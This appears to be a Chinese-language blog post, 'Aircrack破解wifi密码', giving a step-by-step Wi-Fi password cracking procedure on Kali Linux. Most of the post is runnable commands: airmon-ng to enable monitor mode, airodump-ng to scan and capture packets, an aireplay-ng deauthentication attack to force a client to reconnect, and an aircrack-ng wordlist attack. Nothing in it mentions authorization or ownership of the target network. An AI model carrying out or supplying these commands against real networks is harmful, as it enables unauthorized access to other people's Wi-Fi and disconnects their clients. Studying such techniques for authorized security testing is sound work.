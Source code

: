 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/wifi.jpg" class="fit image"> 
  
## 实验过程
### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包
### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作。
  如果没有开启，输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启 
 <center>
  <img src="/images/thumbs/wlan0.png" width=180 height=181.5 /">
 </center>
                                                               
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" class="fit image">
### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
<img src="/images/thumbs/mubiao.jpg" width=180 height=181.5 /">                                         
### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```
 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6  
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
  <img src="/images/thumbs/attack.jpg" width=180 height=181.5 /">
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
  <img src="/images/thumbs/ben.jpg" width=180 height=181.5 /">
 + -w是指定我的密码本

